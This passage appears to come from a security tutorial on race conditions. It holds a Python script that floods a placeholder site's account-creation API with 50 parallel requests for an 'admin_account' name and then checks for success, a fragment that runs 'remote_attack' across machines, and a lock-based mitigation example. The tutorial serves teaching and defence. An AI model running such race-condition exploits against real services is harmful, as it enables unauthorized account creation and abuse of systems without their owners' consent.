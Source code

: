 ```python
with ThreadPoolExecutor(max_workers=len(machines)) as executor:
    executor.map(remote_attack, machines)
```

### Blind Race Condition Exploitation

When you cannot directly observe the outcome of the race:

```python
import requests
import time
from concurrent.futures import ThreadPoolExecutor

target_url = "https://vulnerable-site.com/api/create-account"
probe_url = "https://vulnerable-site.com/api/account-info"

def create_attempt(username):
    data = {"username": username, "password": "Password123"}
    return requests.post(target_url, json=data)

def check_success(username):
    resp = requests.get(f"{probe_url}?username={username}")
    return resp.status_code == 200

# Launch multiple creation attempts
username = "admin_account"
with ThreadPoolExecutor(max_workers=50) as executor:
    executor.map(lambda _: create_attempt(username), range(50))

# Check if any attempt succeeded
time.sleep(2)
if check_success(username):
    print("Race condition successfully exploited!")
```

## Mitigation Techniques

### Locking Mechanisms

```python
# Python threading lock example
import threading

lock = threading.Lock()
counter = 0

def safe_increment():
    global counter
    with lock:  # Acquire lock
        temp = counter
        temp += 1
        counter = temp
    # Lock is automatically released
```
